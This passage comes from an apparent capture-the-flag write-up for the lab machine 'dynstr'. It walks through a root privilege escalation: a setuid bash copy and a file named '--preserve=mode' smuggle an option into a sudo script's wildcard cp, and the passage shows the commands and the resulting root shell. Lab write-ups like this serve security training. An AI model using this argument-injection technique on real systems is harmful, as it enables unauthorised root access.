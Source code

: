 ```
-rw-r--r-- 1 bindmgr bindmgr     220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 bindmgr bindmgr    3771 Feb 25  2020 .bashrc
drwx------ 2 bindmgr bindmgr    4096 Mar 13 12:09 .cache
-rw-r--r-- 1 bindmgr bindmgr     807 Feb 25  2020 .profile
drwxr-xr-x 2 bindmgr bindmgr    4096 Mar 13 12:09 .ssh
drwxr-xr-x 2 bindmgr bindmgr    4096 Mar 13 14:53 support-case-C62796521
-r-------- 1 bindmgr bindmgr      33 Aug 21 11:54 user.txt
-rw-rw-r-- 1 bindmgr bindmgr       2 Aug 21 12:40 .version
```
Afterwards, we will have to give the binary setuid bits and also create a ```--preserve=mode``` so that the script executes ```cp --preserve=mode /etc/bind/named.bindmgr``` which allows the privilege on bash to be preserved when the script is executed.
```
bindmgr@dynstr:~$ chmod +s bash
bindmgr@dynstr:~$ echo > --preserve=mode
bindmgr@dynstr:~$ ls
 bash  '--preserve=mode'  support-case-C62796521   user.txt
```
Next, we will have to execute the script so that the bash biinary with root privileges will be copied to ```/etc/bind/named.bindmgr```
```
bindmgr@dynstr:~$ sudo /usr/local/bin/bindmgr.sh
sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
[+] Running /usr/local/bin/bindmgr.sh to stage new configuration from /home/bindmgr.
[+] Creating /etc/bind/named.conf.bindmgr file.
[+] Staging files to /etc/bind/named.bindmgr.
cp: -r not specified; omitting directory 'support-case-C62796521'
[+] Checking staged configuration.
[-] ERROR: The generated configuration is not valid. Please fix following errors: 
    /etc/bind/named.bindmgr/bash:1: unknown option 'ELF...'
    /etc/bind/named.bindmgr/bash:14: unknown option 'h�ȀE�'
    /etc/bind/named.bindmgr/bash:40: unknown option '�YF'
    /etc/bind/named.bindmgr/bash:40: unexpected token near '}'
```
Lastly, we will just have to navigate to ```/etc/bind/named.bindmgr``` so that the bash can be executed with root privileges and obtain the system flag.
```
bindmgr@dynstr:~$ cd /etc/bind/named.bindmgr
bindmgr@dynstr:/etc/bind/named.bindmgr$ ./bash -p
bash-5.0# cd /root/
bash-5.0# cat root.txt
<Redacted system flag>
bash-5.0# 
```

